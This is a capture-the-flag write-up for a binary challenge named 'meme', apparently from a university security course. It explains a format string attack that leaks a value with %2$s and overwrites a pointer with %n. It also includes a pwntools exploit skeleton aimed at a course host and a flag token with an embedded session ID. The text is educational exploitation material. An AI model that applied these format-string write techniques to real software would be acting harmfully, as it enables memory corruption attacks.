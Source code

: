 meme
============================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMy1tZW1lIiwiaXAiOiIxNDQuMTM2LjI4LjM2Iiwic2Vzc2lvbiI6IjIyZDk2MjEyLTg4N2MtNDRiYy04YzAzLTNkMGQwZjJjNjViOCJ9.AXlhshokxbNVY0lsx-0ZOu2CBKMd7qQvn428x15PSqw}
General overview of problems faced
-----------------------------------------------
Stack pointer given. Needed to interpret what the stack pointer was for.
Used %2$s to find out that 6447 was containing in this pointer.
Using binary ninja, I saw that this pointer was used to compare
to another string "MEME" so this means I had to write this into the pointer using %n.
Probably didn't need the null terminator since it was probably
already there and we had the same number of characters for each string.
-----------------------------------------------
```
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './meme' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 29835 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# We are given apointer, possible a stack pointer.
# We need to write "MEME" intro 0x804a17c
# With input = BAAAA %x %x %x, we get 42000000 41414141 ...
# The stack pointer pointers to (originally) "6447" so this
```